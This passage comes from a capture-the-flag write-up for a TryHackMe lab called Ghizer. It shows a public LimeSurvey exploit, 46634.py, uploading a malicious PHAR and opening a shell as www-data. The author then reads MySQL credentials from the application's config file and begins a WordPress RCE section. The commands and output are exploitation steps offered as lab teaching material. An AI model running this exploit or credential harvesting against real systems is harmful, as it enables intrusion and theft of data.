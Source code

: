Armed with this information, let's go back to the `46634.py` exploit and run it!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# python2 46634.py http://ghizer.thm admin password
[*] Logging in to LimeSurvey...
[*] Creating a new Survey...
[+] SurveyID: 252422
[*] Uploading a malicious PHAR...
[*] Sending the Payload...
[*] TCPDF Response: <strong>TCPDF ERROR: </strong>[Image] Unable to get the size of the image: phar://./upload/surveys/252422/files/malicious.jpg
[+] Pwned! :)
[+] Getting the shell...
$ whoami;hostname;id;ip a
www-data
ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `www-data`!

**In `/var/www/html/limesurvey/application/config/config.php`, we can see there is a credentials for MySQL:**
```php
'db' => array(
			'connectionString' => 'mysql:host=localhost;port=3306;dbname=limedb;',
			'emulatePrepare' => true,
			'username' => 'Anny',
			'password' => '{Redacted}',
			'charset' => 'utf8mb4',
			'tablePrefix' => 'lime_',
		),
```

## Initial Foothold 2 - WordPress RCE

In HTTPS on port 443, it's a WordPress page!
